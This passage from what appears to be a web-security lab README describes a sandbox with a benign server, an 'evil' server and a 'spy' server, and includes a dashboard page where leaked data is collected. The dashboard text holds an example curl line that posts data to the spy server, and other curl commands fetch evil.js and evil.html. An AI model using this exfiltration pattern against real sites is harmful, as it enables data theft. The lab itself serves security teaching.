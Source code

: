 		// we connect immidiately when the web page is loaded
		connect();
	
		```
		
		File `public/static/dashboard.html`:

		```html
		<!DOCTYPE html>
		<html lang="en">
			<head>
				<title>Collecting Leaked Data on the Spy Server</title>
				<script src="js/websocketlogic.js" defer></script>
			</head>
			<body>
		        <h2>Dashboard</h2>
			    <h3>The Spy Server: we are just collecting leaked data</h3>
		        <section>
		            <h6>We got so far:</h6> 
		            <textarea id="log" rows="10" cols="120" >
		                Leaked data will appear here, 
		                as soon someone ist posting data to the server. 
		
		                e.g. send some data from the terminal:
		                curl http://server:port/foundTheFlag?username=Secure
		            </textarea>
		        </section>
		    </body>
		</html>
		```


### Local: C (CMD-Line, curl)

Run tool **curl** for checking if the servers work

* Nice **Server-N**
 
	```bash
	curl 'http://sandbox:80/'
	curl 'http://sandbox:80/static/about.txt'
	curl 'http://sandbox:80/static/webapp/index.html' 
	```

* Evil **Server-E**

	```bash
	curl 'http://sandbox:8888/static/evil.js'
	curl 'http://sandbox:8888/static/evil.html'
	```
 
* Spy **Server-S**

	```bash
	curl http://sandbox:8787/static/logs
	```
